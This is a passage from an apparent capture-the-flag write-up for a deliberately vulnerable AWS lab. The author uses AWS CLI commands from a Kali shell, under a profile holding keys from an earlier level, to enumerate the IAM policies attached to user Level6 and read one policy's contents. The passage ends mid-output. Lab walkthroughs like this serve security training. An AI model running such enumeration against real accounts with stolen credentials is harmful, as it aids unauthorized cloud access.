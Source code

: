 Reading attached user-policies to figure out a weakness
{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws --profile flaws3 iam list-attached-user-policies --user-name Level6
{
    "AttachedPolicies": [
        {
            "PolicyName": "list_apigateways",
            "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
        },
        {
            "PolicyName": "MySecurityAudit",
            "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
        },
        {
            "PolicyName": "AWSCompromisedKeyQuarantine",
            "PolicyArn": "arn:aws:iam::aws:policy/AWSCompromisedKeyQuarantine"
        }
    ]
}
{% endhighlight %}

As we know the ARN for the policy we can read it's version id
{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws --profile flaws3 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways
{
    "Policy": {
        "PolicyName": "list_apigateways",
        "PolicyId": "ANPAIRLWTQMGKCSPGTAIO",
        "Arn": "arn:aws:iam::975426262029:policy/list_apigateways",
        "Path": "/",
        "DefaultVersionId": "v4",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "List apigateways",
        "CreateDate": "2017-02-20T01:45:17Z",
        "UpdateDate": "2017-02-20T01:48:17Z",
        "Tags": []
    }
}
{% endhighlight %}

With both version id and ARN we can read the actual policy 
{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws --profile flaws3 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": [
                        "apigateway:GET"
                    ],
                    "Effect": "Allow",
                    "Resource": "arn:aws:apigateway:us-west-2::/restapis/*"
                }
            ]
        },